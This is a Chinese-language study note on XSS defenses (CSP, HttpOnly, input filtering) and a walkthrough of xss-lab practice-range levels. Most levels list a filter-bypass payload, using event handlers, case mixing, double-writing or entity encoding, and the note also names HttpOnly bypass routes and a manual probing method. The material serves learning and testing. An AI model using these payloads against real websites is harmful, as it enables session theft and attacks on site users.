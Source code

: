 
---
➢ XSS跨站-安全防御-CSP

➢ XSS跨站-安全防御-HttpOnly

➢ XSS跨站-安全防御-XSSFilter

# 一、CSP (Content Security Policy 内容安全策略)

内容安全策略是一种==可信白名单机制==，来**限制网站中是否可以包含某来源内容**。
该制度明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单，
它的实现和执行全部由浏览器完成，开发者只需提供配置。

- 禁止加载外域代码，防止复杂的攻击逻辑。

- 禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。

- 禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。

- 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。

合理使用上报可以及时发现XSS，利于尽快修复问题。

实验：

开启CSP时XSS的加载情况

未开启CSP时XSS的加载情况

绕过：有但鸡肋

https://xz.aliyun.com/t/12370

https://blog.csdn.net/a1766855068/article/details/89370320

开启方式: 
```
header("Content-Security-Policy:img-src 'self' ");
```

# 二、HttpOnly

禁止页面的JavaScript访问带有HttpOnly属性的Cookie。

PHP.INI设置或代码引用

```
session.cookie_httponly =1
ini_set("session.cookie_httponly", 1);
-setcookie('', '', time() + 3600, '/xss', '', false, true);
```

实验：

开启HttpOnly时XSS窃取Cookie的加载情况

未开启HttpOnly时XSS窃取Cookie的加载情况

绕过：有但鸡肋

(1) CVE-2012-0053

(2) PHPINFO页面/

(3) Flash/Java

https://blog.csdn.net/weixin_42478365/article/details/116597222

思路：不获取Cookie采用方式（钓鱼，浏览器攻击框架等）

# 三、XSS Filter

检查用户输入的数据中是否包含特殊字符， 如<、>、’、”,进行实体化等。

实验：手工分析&工具分析

Xss-Lab 标签及常见过滤绕过

（靶场）环境下载：#https://github.com/Re13orn/xss-lab

参考资料：#https://xz.aliyun.com/t/4067

工具资料：#https://github.com/s0md3v/XSStrike

## （靶场部分思路）
1、无任何过滤

	<script>alert()</script>

2、实体化 输入框没有

	"> <script>alert()</script> <"

3、全部实体化 利用标签事件 单引号闭合

	' onfocus=javascript:alert() '

4、全部实体化 利用标签事件 双引号闭合

	" onfocus=javascript:alert() "

5、事件关键字过滤 利用其他标签调用 双引号闭合

	"> <a href=javascript:alert()>xxx</a> <"

6、利用大小写未正则匹配

	"> <sCript>alert()</sCript> <"

7、利用双写绕过匹配

	"> <a hrehreff=javasscriptcript:alert()>x</a> <"

8、利用Unicode编码

	&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0029

9、利用Unicode编码（内容检测）

	&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0029;('http://')

10、隐藏属性触发闭合

	?t_sort=" onfocus=javascript:alert() type="text

11-20

https://blog.csdn.net/l2872253606/article/details/125638898

# 黑盒XSS手工分析：

1. 1、页面中显示的数据找可控的（有些隐藏的）

2. 2、利用可控地方发送JS代码去看执行加载情况

3. 3、成功执行即XSS，不能成功就看语句输出的地方显示（过滤）

4. 4、根据显示分析为什么不能执行（实体化，符号括起来，关键字被删除等）
